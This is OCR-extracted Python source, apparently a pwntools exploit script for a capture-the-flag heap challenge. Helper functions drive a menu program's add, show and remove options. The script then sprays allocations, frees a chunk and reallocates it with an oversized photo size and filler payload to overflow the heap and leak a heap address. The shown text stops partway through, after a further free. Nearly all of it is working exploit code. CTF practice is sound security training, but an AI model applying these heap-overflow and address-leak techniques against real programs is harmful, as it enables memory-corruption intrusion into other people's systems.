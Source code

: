 ```python

p = start()

def add(idx, name, topic_cnt, topic: list, is_Photo=False, width=0, height=0, photoData=b'', exploit=False):
    p.sendlineafter(b"input:", b"1")
    p.sendlineafter(b"idx? ", str(idx).encode())
    p.sendlineafter(b"name? ", name)
    p.sendlineafter(b"topic cnt? ", str(topic_cnt).encode())

    for i in range(topic_cnt):
        p.sendlineafter(b'topic> ', topic[i])

    if exploit:
        return

    p.recvuntil(b'wanna upload photo? ')
    if is_Photo and width and height:
        p.sendline(b'y')
        p.sendlineafter(b'width? ', str(width).encode())
        p.sendlineafter(b'height? ', str(height).encode())
        p.sendafter(b'reading photo below>>', photoData)
    else:
        p.sendline(b'n')

def show():
    p.sendlineafter(b"input:", b"2")

def remove(idx):
    p.sendlineafter(b"input:", b"3")
    p.sendlineafter(b"idx? ", str(idx).encode())

add(0, b'A'*0x10, 1, [b'AAAAA'], is_Photo=True,
    width=47, height=1, photoData=b'X'*47)

add(1, b'B'*0x10, 1, [b'AAAAA'], is_Photo=True,
    width=47, height=1, photoData=b'X'*47)

add(2, b'C'*0x10, 1, [b'AAAAA'], is_Photo=True,
    width=47, height=1, photoData=b'X'*47)

add(3, b'D'*0x10, 1, [b'AAAAA'], is_Photo=True,
    width=47, height=1, photoData=b'X'*47)

add(4, b'D'*0x10, 1, [b'AAAAA'], is_Photo=True,
    width=47, height=1, photoData=b'X'*47)

add(5, b'5'*0x10, 1, [b'A'*0x80], is_Photo=True,
    width=47, height=1, photoData=b'X'*47)

add(6, b'6'*0x10, 1, [b'A'*0x80], is_Photo=True,
    width=47, height=1, photoData=b'X'*47)

remove(0)

add(0, b'A'*0x10, 1, [b'AAAAA'], is_Photo=True,
    width=65280, height=65280, photoData=p64(0x1337133713371337)*(0x908//8))

p.recvuntil(p64(0x1337133713371337)*(0x908//8))
heap = u64(p.recv(6)+b'\0\0') - 0x12810
log.info("heap: "+hex(heap))

remove(2)
```